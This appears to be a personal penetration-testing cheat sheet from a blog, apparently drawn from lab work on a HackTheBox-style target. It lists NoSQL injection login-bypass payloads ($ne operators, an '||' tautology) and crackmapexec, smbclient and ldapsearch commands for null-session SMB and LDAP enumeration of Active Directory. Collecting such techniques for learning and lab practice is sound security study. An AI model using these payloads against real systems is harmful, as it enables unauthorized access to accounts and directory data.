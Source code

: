 ```yaml
---
layout: post
title: Cheat Sheet
permalink: /cheat-sheet/
---       
```

Welcome to my various hacking techniques cheat sheet. This page contains a list of various techniques used in hacking and penetration testing.

Please note that the techniques listed on this page are for educational and ethical purposes only. Misuse of any information provided here is strictly prohibited.

The techniques are organized by category, such as network hacking, web application hacking, and wireless hacking. Each technique includes a brief description and links to resources for further reading.

To get started, click on one of the links on the left `toc` to navigate to the relevant category:

## Web App
### Enumerating

- Always check for error messages
- Once you get that you can figure out the backend database(not always the default)

### Sql Injection


### Nosql injection

You can try pass a variable

```console
username[$ne]=admin&password=pass
```
or you can convert to json under content type
```console
Content-Type: application/json
```
then fix payload so that it is in `json` format

```json
{"username":"admin",
"password":{
    "$ne":""
}
}
```

You can also use `||` which is an or statement. Pay attention to `==`

```sql
username=admin'||'1'=='1&password=pass
```

## Active Directory
### Enumerate smb
Run `cme` to get some type of a burner

```console
cme smb 'ip'
```
try listing shares

```console
cme smb 'ip' --shares
```
Trying `null` authentication

```console
cme smb 'ip' --shares -u '' -p ''
```
if that fails we can try anonymous authentication by putting anything on the username which if it does not exist falls back to `anonymous`

```console
cme smb 'ip' --shares -u 'DoesNotExist' -p ''
```
If you get a shared folder you can connect to it via smbclient

```console
smbclient -N //10.10.11.174/$share
```

the reason we dont include a username is because if you dont put a username it attempts to authenticate with the current username of your box

### If we have a credential

- We could use it for `ldapsearch` as below:

```sh
ldapsearch -h support.htb -D 'ldap@support.htb' -w 'password' -b 'dc=support,dc=htb' > ldap.out

```
From the above example
```sh
 -h for hostname
 -D bind distinguish name
 -w for password
 -b for root domain - this is just how ldap refers to it ( the actual domain is support.htb)
 ```
Check for attribute fields like `info` or  `description`
